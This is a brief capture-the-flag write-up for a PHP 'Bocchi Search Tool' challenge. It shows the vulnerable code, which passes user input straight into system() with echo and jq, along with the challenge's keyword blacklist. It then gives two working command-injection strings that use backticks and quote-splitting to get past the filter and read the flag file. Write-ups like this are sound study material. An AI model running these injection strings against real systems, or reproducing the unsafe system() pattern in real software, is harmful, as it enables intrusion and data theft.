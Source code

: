 # Bocchi Search Tool
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
# foot note
- anything on a shell command contained in pairs of`` gets executed as commands!!!
# solution
blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```

